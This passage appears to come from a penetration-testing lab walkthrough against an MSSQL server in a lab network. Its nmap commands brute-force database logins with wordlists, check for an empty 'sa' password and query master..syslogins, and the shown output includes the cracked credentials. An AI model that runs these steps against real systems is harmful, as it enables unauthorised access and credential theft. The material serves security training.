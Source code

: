 > **Answer:**
>
> Valid MSSQL users and passwords are:
>
> `admin:anamaria`
>
> `auditor:jasmine1`
>
> `dbadmin:bubbles1`

```bash
root@attackdefense:~# nmap --script ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-passwords.txt -p1433 10.0.28.28
Starting Nmap 7.91 ( https://nmap.org ) at 2024-06-28 08:50 IST
Nmap scan report for 10.0.28.28
Host is up (0.0025s latency).

PORT     STATE SERVICE
1433/tcp open  ms-sql-s
| ms-sql-brute: 
|   [10.0.28.28:1433]
|     Credentials found:
|       admin:anamaria => Login Success
|       auditor:jasmine1 => Login Success
|_      dbadmin:bubbles1 => Login Success

Nmap done: 1 IP address (1 host up) scanned in 3.35 seconds

```

> 4. Identify 'sa' user password

> **Answer:**
>
> _**sa**_ user is enabled with `empty password`.

```bash
root@attackdefense:~# nmap --script ms-sql-empty-password -p1433 10.0.28.28
Starting Nmap 7.91 ( https://nmap.org ) at 2024-06-28 08:51 IST
Nmap scan report for 10.0.28.28
Host is up (0.0023s latency).

PORT     STATE SERVICE
1433/tcp open  ms-sql-s
| ms-sql-empty-password: 
|   [10.0.28.28:1433]
|_    sa:<empty> => Login Success

Nmap done: 1 IP address (1 host up) scanned in 1.52 seconds
```

> 5. Execute MSSQL query to extract sysusers

```bash
root@attackdefense:~# nmap --script ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query="SELECT * FROM master..syslogins" -p1433 10.0.28.28 -oN output.txt
Starting Nmap 7.91 ( https://nmap.org ) at 2024-06-28 08:57 IST
Nmap scan report for 10.0.28.28
Host is up (0.0023s latency).

PORT     STATE SERVICE
1433/tcp open  ms-sql-s
| ms-sql-query: 
|   [10.0.28.28:1433]
|     Query: SELECT * FROM master..syslogins
```